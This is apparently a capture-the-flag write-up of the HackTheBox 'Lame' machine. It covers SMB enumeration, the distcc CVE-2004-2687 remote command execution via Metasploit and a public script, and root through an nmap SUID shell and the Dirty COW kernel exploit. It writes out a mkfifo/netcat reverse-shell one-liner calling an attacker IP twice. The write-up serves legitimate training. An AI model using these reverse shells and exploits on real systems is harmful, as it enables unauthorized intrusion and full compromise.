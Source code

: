 ```yaml
---
title: Lame 
categories: [HackTheBox, HTB-Linux]
date: 2022-08-17
tags: [linux-priv-esc/kernel-exploit]
img_path: /Writeups/HackTheBox/Linux/Lame/images/
image:
  src: Pasted%20image%2020220817005744.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 
HackTheBox Lame marks the beginning of me trying to complete TJNull's OSCP List for HackTheBox.

This machine begins w/ nmap detecting a service exploit for distcc v1 that allows command execution, allowing us to obtain daemon user/shell.

There are 2 privilege escalation techniques used in this machine, a SUID GTFOBin and a kernel exploit.

---

| Column       | Details    |
| ------------ | ---------- |
| Box Name     | Lame       |
| IP           | 10.10.10.3 |
| Points       | -          |
| Difficulty   | Easy       |
| Creator      | [ch4p](https://www.hackthebox.com/home/users/profile/1)         |
| Release Date |  14-March-2018          |


# Recon

## TCP/139,445 (SMB)
### Enum4linux
- Enumerated some users
	```
	┌──(root💀kali)-[~/htb/lame]
	└─# cat enum4linux_users | grep username
	  username: root
	  username: daemon
	  username: bin
	  username: sys
	  username: sync
	  username: games
	  username: man
	  username: lp
	  username: mail
	  username: news
	  username: uucp
	  username: proxy
	  username: www-data
	  username: backup
	  username: list
	  username: irc
	  username: gnats
	  username: libuuid
	  username: dhcp
	  username: syslog
	  username: klog
	  username: sshd
	  username: bind
	  username: postfix
	  username: ftp
	  username: postgres
	  username: mysql
	  username: tomcat55
	  username: distccd
	  username: telnetd
	  username: proftpd
	  username: msfadmin
	  username: user
	  username: service
	  username: nobody
	
	```

### SMBMap
- Found a fileshare `/tmp`
	```
	[+]IP:10.10.10.3:445	Name:10.10.10.3
	Disk	Permissions	Comment
	----	-----------	-------
	print$	NOACCESS	PrinterDrivers
	tmp	    READ,WRITE	ohnoes!
	opt	    NOACCESS	
	IPC$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	ADMIN$	NOACCESS	IPCService(lameserver(Samba3.0.20-Debian))
	```
	- `/tmp` - `RW`


## TCP/3632
### NMAP
```
PORT     STATE SERVICE REASON         VERSION
3632/tcp open  distccd syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://distcc.github.io/security.html
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 16 22:28:52 2022 -- 1 IP address (1 host up) scanned in 18.03 seconds
```
- Vulnerable to RCE exploit


# Initial Foothold

## TCP/3632 - distcc RCE exploit w/ Metasploit
1. Launch `msfconsole`
2. Search for `distcc` and use `unix/misc/distcc_exec`
	```
	msf6 use unix/misc/distcc_exec
	msf6 exploit(unix/misc/distcc_exec) > options
	```
3. Set `OPTIONS`
	1. Set `RHOSTS`
	```
	msf6 exploit(unix/misc/distcc_exec) > set RHOSTS $ip
	RHOSTS => $ip
	```
	2. Set `Payload`
	```
	msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
	```
	3. Set `LHOST`
	```
	msf6 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.2
	LHOST => 10.10.14.2
	```
4. Exploit
	![](Pasted%20image%2020220816230119.png)

## TCP/3632 - distcc RCE exploit w/o Metasploit
1. Google `distcc exploit -lame`
	- To avoid spoilers
2. Found a [github exploit](https://github.com/angelpimentell/distcc_cve_2004-2687_exploit/blob/main/distcc_cve-2004-2687_exploit.py)
3. Exploit
	![](Pasted%20image%2020220816230329.png)
4. This shell is limited, stuck in `/tmp` directory, invoke another reverse shell to obtain a more stable shell
	```
   rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4242 >/tmp/f
	
	┌──(root💀kali)-[~/htb/lame]
	└─# nc -nvlp 4242
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4242
	Ncat: Listening on 0.0.0.0:4242
	Ncat: Connection from 10.10.10.3.
	Ncat: Connection from 10.10.10.3:48838.
	sh: no job control in this shell
	sh-3.2$ id
	uid=1(daemon) gid=1(daemon) groups=1(daemon)
	
	```
5. User Flag
	```
	daemon@lame:/home$ find . 2>/dev/null | grep user
	./makis/user.txt
	
	daemon@lame:/home$ cat ./makis/user.txt
	0bfd0837e923142a01b6ece77f3d6b97
	
	```


# Privilege Escalation

## Root - Via SUID GTFOBin
1. Ran linpeas, found something interesting
	![](Pasted%20image%2020220817002733.png)
	- `nmap` has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/nmap/#shell)
2. Exploit 
	```
	daemon@lame:/tmp$ /usr/bin/nmap --interactive
	nmap> !rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 4444 >/tmp/f
	
	```
	![](Pasted%20image%2020220817003037.png)
4. Root obtained
	![](Pasted%20image%2020220817003133.png)

## Root - Via Kernel Exploit
1. Check `kernel` version
	```
	daemon@lame:/tmp$ uname -a
	Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
	```
	- `Linux lame 2.6.24-16-server`
	- Vulnerable to [`2.6.22 < 3.9 - 'Dirty COW'`](https://www.exploit-db.com/exploits/40839)
2. Transfer [exploit](https://www.exploit-db.com/exploits/40839) to target
3. Exploit
	```
	gcc -pthread dirty.c -o dirty -lcrypt
	./dirty
	```
	![](Pasted%20image%2020220817005454.png)
4. SSH w/ `firefart:password`
	![](Pasted%20image%2020220817005556.png)
	